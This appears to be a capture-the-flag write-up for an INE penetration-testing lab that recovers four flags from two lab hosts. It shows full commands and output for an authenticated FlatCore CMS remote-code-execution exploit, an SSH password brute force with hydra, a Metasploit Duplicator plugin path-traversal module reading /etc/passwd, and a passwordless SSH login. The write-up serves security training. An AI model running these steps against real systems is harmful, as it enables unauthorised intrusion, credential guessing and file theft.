





# Host & Network Penetration Testing: Exploitation CTF 1

## Target
* `http://target1.ine.local`
* `http://target2.ine.local`

## Tools used:
* `searchsploit`
* `dirb`
* `msf`
* `hydra`

---
### Flag 1: Identify and exploit the vulnerable web application running on target1.ine.local and retrieve the flag from the root directory. The credentials admin:password1 may be useful.
We first start with a simple nmap scan
```bash
┌──(root㉿INE)-[~]
└─# nmap -Pn -sV target1.ine.local
Starting Nmap 7.94SVN ( https://nmap.org ) at 2026-01-27 05:18 IST
Nmap scan report for target1.ine.local (192.131.64.3)
Host is up (0.000026s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
MAC Address: 02:42:C0:83:40:03 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.46 seconds
```
We also look through the website to see if we can find anything useful


The website seems to be made of flatcore, so we look up to see if we can find any exploits pertaining to it.
```bash
┌──(root㉿INE)-[~]
└─# searchsploit flatcore CMS
--------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                           |  Path
--------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
FlatCore CMS 2.0.7 - Remote Code Execution (RCE) (Authenticated)                                                                                         | php/webapps/50262.py
FlatCore CMS 2.1.1 - Stored Cross-Site Scripting (XSS)                                                                                                   | php/webapps/51068.txt
--------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
Papers: No Results
```
We find a RCE exploit that looks useful, so we copy that on to the home folder and glimpse through the code to see how to use it. 
```bash
┌──(root㉿INE)-[~]
└─# cp /usr/share/exploitdb/exploits/php/webapps/50262.py .                                                                                                                                

┌──(root㉿INE)-[~]
└─# ls                                                                                                                                                                                     
50262.py  Desktop  Documents  Downloads  Music  Pictures  Public  Templates  thinclient_drives  Videos
```
  
```bash
┌──(root㉿INE)-[~]
└─# python3 50262.py 
Usage: 50262.py 'http(s)://TARGET' 'USERNAME' 'PASSWORD'
```
Once we have a rough idea we just use it to get a shell into the target machine
```bash
┌──(root㉿INE)-[~]
└─# python3 50262.py 'http://target1.ine.local' 'admin' 'password1'                                                                                                                        
Logged in
$ ls
sgizoid.php

$ whoami
www-data
```
Next, we just look around to find the flag.  
```bash
$ ls /
bin
boot
dev
etc
flag1.txt
home
lib
lib32
lib64
libx32
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var

$ cat /flag.txt

$ cat /flag1.txt
FLAG1{0115b3cdc4ea4a92a2669e76e8ffeaa5}
```
Flag: **0115b3cdc4ea4a92a2669e76e8ffeaa5**

### Flag 2: Further, identify and compromise an insecure system user on target1.ine.local.
We look through the user list to find any user that seems insecure. The user ***iamaweakuser*** seems promising.
```bash
$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:101:101:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
systemd-network:x:102:103:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:103:104:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:104:105::/nonexistent:/usr/sbin/nologin
sshd:x:105:65534::/run/sshd:/usr/sbin/nologin
iamaweakuser:x:1000:1000::/home/iamaweakuser:/bin/bash
```
We try to brute force the password using `hydra`
```bash
┌──(root㉿INE)-[~]
└─# hydra -l iamaweakuser -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt target1.ine.local ssh
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2026-01-27 05:40:15
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 1009 login tries (l:1/p:1009), ~64 tries per task
[DATA] attacking ssh://target1.ine.local:22/
[22][ssh] host: target1.ine.local   login: iamaweakuser   password: angel
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2026-01-27 05:40:22
```
Using the new found password, we just log in to find the next flag.  
```bash
┌──(root㉿INE)-[~]
└─# ssh iamaweakuser@target1.ine.local                                                                                                                                                     
iamaweakuser@target1.ine.local's password: 
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 6.8.0-39-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.
iamaweakuser@target1:~$ ls
flag2.txt
iamaweakuser@target1:~$ cat flag2.txt 
FLAG2{a8a0674422ae4fb5a143631da84334c3}
iamaweakuser@target1:~$ 
```
Flag: **a8a0674422ae4fb5a143631da84334c3**

### Flag 3: Identify and exploit the vulnerable plugin used by the web application running on target2.ine.local and retrieve the flag3.txt file from the root directory.
We can't find anything when we look around either through `nmap` or the webpage so we try to find any hidden webpages via `dirb`
```bash
┌──(root㉿INE)-[~]
└─# nmap -Pn -sV target2.ine.local                                                                                                                                                         
Starting Nmap 7.94SVN ( https://nmap.org ) at 2026-01-27 05:42 IST
Nmap scan report for target2.ine.local (192.131.64.4)
Host is up (0.000027s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
MAC Address: 02:42:C0:83:40:04 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.29 seconds
```

```bash
┌──(root㉿INE)-[~]
└─# dirb http://target2.ine.local/ /usr/share/nmap/nselib/data/wp-plugins.lst

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Tue Jan 27 05:44:51 2026
URL_BASE: http://target2.ine.local/
WORDLIST_FILES: /usr/share/nmap/nselib/data/wp-plugins.lst

-----------------

GENERATED WORDS: 50546                                                         

---- Scanning URL: http://target2.ine.local/ ----
+ http://target2.ine.local/server-status (CODE:403|SIZE:282)                                                                                                                              
                                                                                                                                                                                          
-----------------
END_TIME: Tue Jan 27 05:45:16 2026
DOWNLOADED: 50546 - FOUND: 1
```

```bash
┌──(root㉿INE)-[~]
└─# dirb http://target2.ine.local

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Tue Jan 27 06:11:46 2026
URL_BASE: http://target2.ine.local/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://target2.ine.local/ ----
+ http://target2.ine.local/index.php (CODE:301|SIZE:0)                                                                                                                                    
+ http://target2.ine.local/server-status (CODE:403|SIZE:282)                                                                                                                              
==> DIRECTORY: http://target2.ine.local/wp-admin/                                                                                                                                         
==> DIRECTORY: http://target2.ine.local/wp-content/                                                                                                                                       
==> DIRECTORY: http://target2.ine.local/wp-includes/                                                                                                                                      
+ http://target2.ine.local/xmlrpc.php (CODE:405|SIZE:42)                                                                                                                                  
                                                                                                                                                                                          
---- Entering directory: http://target2.ine.local/wp-admin/ ----
+ http://target2.ine.local/wp-admin/admin.php (CODE:302|SIZE:0)                                                                                                                           
==> DIRECTORY: http://target2.ine.local/wp-admin/css/                                                                                                                                     
==> DIRECTORY: http://target2.ine.local/wp-admin/images/                                                                                                                                  
==> DIRECTORY: http://target2.ine.local/wp-admin/includes/                                                                                                                                
+ http://target2.ine.local/wp-admin/index.php (CODE:302|SIZE:0)                                                                                                                           
==> DIRECTORY: http://target2.ine.local/wp-admin/js/                                                                                                                                      
==> DIRECTORY: http://target2.ine.local/wp-admin/maint/                                                                                                                                   
==> DIRECTORY: http://target2.ine.local/wp-admin/network/                                                                                                                                 
==> DIRECTORY: http://target2.ine.local/wp-admin/user/                                                                                                                                    
                                                                                                                                                                                          
---- Entering directory: http://target2.ine.local/wp-content/ ----
+ http://target2.ine.local/wp-content/index.php (CODE:200|SIZE:0)                                                                                                                         
==> DIRECTORY: http://target2.ine.local/wp-content/plugins/                                                                                                                               
==> DIRECTORY: http://target2.ine.local/wp-content/themes/                                                                                                                                
==> DIRECTORY: http://target2.ine.local/wp-content/upgrade/                                                                                                                               
==> DIRECTORY: http://target2.ine.local/wp-content/uploads/                                                                                                                                                                                
                                                                                                                                                                                          
---- Entering directory: http://target2.ine.local/wp-includes/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                                                                                                                                          
---- Entering directory: http://target2.ine.local/wp-admin/css/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                                                                                                                                          
---- Entering directory: http://target2.ine.local/wp-admin/images/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                                                                                                                                          
---- Entering directory: http://target2.ine.local/wp-admin/includes/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                                                                                                                                          
---- Entering directory: http://target2.ine.local/wp-admin/js/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                                                                                                                                          
---- Entering directory: http://target2.ine.local/wp-admin/maint/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                                                                                                                                          
---- Entering directory: http://target2.ine.local/wp-admin/network/ ----
+ http://target2.ine.local/wp-admin/network/admin.php (CODE:302|SIZE:0)                                                                                                                   
+ http://target2.ine.local/wp-admin/network/index.php (CODE:302|SIZE:0) 
---- Entering directory: http://target2.ine.local/wp-admin/user/ ----
+ http://target2.ine.local/wp-admin/user/admin.php (CODE:302|SIZE:0)                                                                                                                      
+ http://target2.ine.local/wp-admin/user/index.php (CODE:302|SIZE:0)                                                                                                                      
                                                                                                                                                                                          
---- Entering directory: http://target2.ine.local/wp-content/plugins/ ----
+ http://target2.ine.local/wp-content/plugins/index.php (CODE:200|SIZE:0)                                                                                                                 
                                                                                                                                                                                          
---- Entering directory: http://target2.ine.local/wp-content/themes/ ----
+ http://target2.ine.local/wp-content/themes/index.php (CODE:200|SIZE:0)                                                                                                                  
                                                                                                                                                                                          
---- Entering directory: http://target2.ine.local/wp-content/upgrade/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                                                                                                                                          
---- Entering directory: http://target2.ine.local/wp-content/uploads/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                               
-----------------
END_TIME: Tue Jan 27 06:11:55 2026
DOWNLOADED: 32284 - FOUND: 12
```
The `wp-content/plugins` looks like it could hold the vulnerable plugins, so we start searching in that folder for the list of plugins.  
```bash
┌──(root㉿INE)-[~]
└─# dirb http://target2.ine.local/wp-content/plugins/  /usr/share/nmap/nselib/data/wp-plugins.lst                                                                  

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Tue Jan 27 06:14:56 2026
URL_BASE: http://target2.ine.local/wp-content/plugins/
WORDLIST_FILES: /usr/share/nmap/nselib/data/wp-plugins.lst

-----------------

GENERATED WORDS: 50546                                                         

---- Scanning URL: http://target2.ine.local/wp-content/plugins/ ----
==> DIRECTORY: http://target2.ine.local/wp-content/plugins/akismet/                                                                                                                       
==> DIRECTORY: http://target2.ine.local/wp-content/plugins/duplicator/                                                                                                                    
                                                                                                                                                                                          
---- Entering directory: http://target2.ine.local/wp-content/plugins/akismet/ ----
                                                                                                                                                                                          
---- Entering directory: http://target2.ine.local/wp-content/plugins/duplicator/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                               
-----------------
END_TIME: Tue Jan 27 06:15:33 2026
DOWNLOADED: 101092 - FOUND: 0
```
The ***akismet*** plugin looks interesting, we search it through searchsploit
```bash
┌──(root㉿INE)-[~]
└─# searchsploit akismet                                                                                                                                                                   
--------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                           |  Path
--------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
WordPress Plugin Akismet - Multiple Cross-Site Scripting Vulnerabilities                                                                                 | php/webapps/37902.php
WordPress Plugin Akismet 2.1.3 - Cross-Site Scripting                                                                                                    | php/webapps/30036.html
--------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
Papers: No Results

┌──(root㉿INE)-[~]
└─# searchsploit duplicator
--------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                           |  Path
--------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
WordPress Plugin Duplicator - Cross-Site Scripting                                                                                                       | php/webapps/38676.txt
WordPress Plugin Duplicator 0.5.14 - SQL Injection / Cross-Site Request Forgery                                                                          | php/webapps/36735.txt
WordPress Plugin Duplicator 0.5.8 - Privilege Escalation                                                                                                 | php/webapps/36112.txt
WordPress Plugin Duplicator 1.2.32 - Cross-Site Scripting                                                                                                | php/webapps/44288.txt
Wordpress Plugin Duplicator 1.3.26 - Unauthenticated Arbitrary File Read                                                                                 | php/webapps/50420.py
Wordpress Plugin Duplicator 1.3.26 - Unauthenticated Arbitrary File Read (Metasploit)                                                                    | php/webapps/49288.rb
WordPress Plugin Duplicator 1.4.6 - Unauthenticated Backup Download                                                                                      | php/webapps/50992.txt
WordPress Plugin Duplicator 1.4.7 - Information Disclosure                                                                                               | php/webapps/50993.txt
WordPress Plugin Duplicator < 1.5.7.1 - Unauthenticated Sensitive Data Exposure to Account Takeover                                                      | php/webapps/51874.py
WordPress Plugin Multisite Post Duplicator 0.9.5.1 - Cross-Site Request Forgery                                                                          | php/webapps/40908.html
--------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
Papers: No Results
```
We have some exploit for ***duplicator*** and once we check the version we see that some of them are usable.  
  
we use the `wp_duplicator_file_read` module in msf
```bash
msf6 auxiliary(scanner/http/wp_duplicator_file_read) > show options

Module options (auxiliary/scanner/http/wp_duplicator_file_read):

   Name       Current Setting    Required  Description
   ----       ---------------    --------  -----------
   DEPTH      5                  yes       Traversal Depth (to reach the root folder)
   FILEPATH   /etc/passwd        yes       The path to the file to read
   Proxies                       no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     target2.ine.local  yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT      80                 yes       The target port (TCP)
   SSL        false              no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                  yes       The base path to the wordpress application
   THREADS    1                  yes       The number of concurrent threads (max one per host)
   VHOST                         no        HTTP server virtual host


View the full module info with the info, or info -d command.

msf6 auxiliary(scanner/http/wp_duplicator_file_read) > run

[*] Downloading file...

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:101:101:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
systemd-network:x:102:103:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:103:104:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
mysql:x:104:105:MySQL Server,,,:/nonexistent:/bin/false
messagebus:x:105:106::/nonexistent:/usr/sbin/nologin
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
iamacrazyfreeuser:x:1000:1000:,,,:/home/iamacrazyfreeuser:/bin/bash


[+] File saved in: /root/.msf4/loot/20260127062710_default_192.131.64.4_duplicator.trave_163962.txt
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf6 auxiliary(scanner/http/wp_duplicator_file_read) > 
```
we see that it works. We now set the filepath to `flag.txt` and let it run to get the next flag.
```bash
msf6 auxiliary(scanner/http/wp_duplicator_file_read) > set filepath /flag3.txt
filepath => /flag3.txt
msf6 auxiliary(scanner/http/wp_duplicator_file_read) > run

[*] Downloading file...

FLAG3{121efbd937f4472caa13eb3c2d5af5ca}


[+] File saved in: /root/.msf4/loot/20260127063005_default_192.131.64.4_duplicator.trave_937331.txt
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf6 auxiliary(scanner/http/wp_duplicator_file_read) > 
```
Flag: **121efbd937f4472caa13eb3c2d5af5ca**

### Flag 4: Further, identify and compromise a system user requiring no authentication on target2.ine.local.
From the list of users in the previous part, we see that the ***iamacrazyfreeuser*** seems like the target we are after. We log in and get the flag.
```bash
┌──(root㉿INE)-[~]
└─# ssh iamacrazyfreeuser@target2.ine.local
The authenticity of host 'target2.ine.local (192.131.64.4)' can't be established.
ED25519 key fingerprint is SHA256:wpzJ5EnXpFl5MXGxA0ySD1fWxXgqr7cqoAVKO+1DkzY.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'target2.ine.local' (ED25519) to the list of known hosts.
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 6.8.0-39-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

iamacrazyfreeuser@target2:~$ ls
flag4.txt
iamacrazyfreeuser@target2:~$ cat flag4.txt 
FLAG4{f5806301f80a4afb853caa013e8ce3b2}
```
Flag: **f5806301f80a4afb853caa013e8ce3b2**